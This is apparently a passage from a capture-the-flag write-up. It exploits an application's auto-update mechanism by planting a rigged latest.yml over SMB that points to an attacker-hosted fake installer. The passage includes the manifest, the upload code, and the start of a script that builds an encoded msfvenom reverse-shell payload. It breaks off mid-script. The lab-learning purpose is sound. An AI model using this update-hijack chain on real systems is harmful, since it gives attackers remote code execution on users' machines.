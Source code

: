 ```bash
  url: http://10.10.14.39/heedv1'Setup1.0.1.exe
  sha512: UboG1lEwJPbfExtL8ttp6CbfYi9nJ3mOZ8TAZzQ2ETcdq+OBXJWM/B1x6B2jEEpR8u7umo3RC5Npr15lmMjjLA==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: UboG1lEwJPbfExtL8ttp6CbfYi9nJ3mOZ8TAZzQ2ETcdq+OBXJWM/B1x6B2jEEpR8u7umo3RC5Npr15lmMjjLA==
releaseDate: '2021-04-21T11:17:02.627Z'
```

## SMB

I used [this gist](https://gist.github.com/joselitosn/e74dbc2812c6479d3678) for uploading to SMB:

```python
resp = conn.storeFile('Software_Updates', 'client1/latest.yml', file)
```

Listing within the directory shows it's uploaded:

```bash
smb: \client1\> dir
  .                                   D        0  Wed Jun  2 14:22:45 2021
  ..                                  D        0  Wed Jun  2 14:22:45 2021
  latest.yml                          A     2776  Wed Jun  2 14:22:45 2021
```

Awesome - now it's automated, we just need to debug it to get it to execute code.

## Final Script Structure

This structure is working - just the payload needs adjusting:

```python
import netifaces as ni
import subprocess
import sys
import argparse
import os
from pathlib import Path
import hashlib
import base64
from smb.SMBConnection import SMBConnection

def get_ip(interface):
    """find your IP on a given interface"""
    ni.ifaddresses(interface)
    ip = ni.ifaddresses(interface)[ni.AF_INET][0]['addr']
    print("IP Address on interface " + interface + ": " + ip)
    
    return ip

def gen_payload(ip, port, payload, dir):
    """generate an msfvenom payload with given IP address and port"""

    cmd_str = 'msfvenom -a x86 --platform windows -p ' + payload + ' LHOST=' + str(ip) + ' LPORT=' + str(port) + ' -e x86/shikata_ga_nai -f exe -o "' + dir + 'heedv1\'Setup1.0.1.exe"'

    print("Running command: " + cmd_str)
    
    subprocess.call(cmd_str, shell=True)

def get_payload(args, ip, port, path):
    """generate a payload with msfvenom, calculate its size and sha512 sum
    if a payload has already been generated, just calculate its size and sha512 sum"""

    print("\n=== Generating Payload ===\n")

```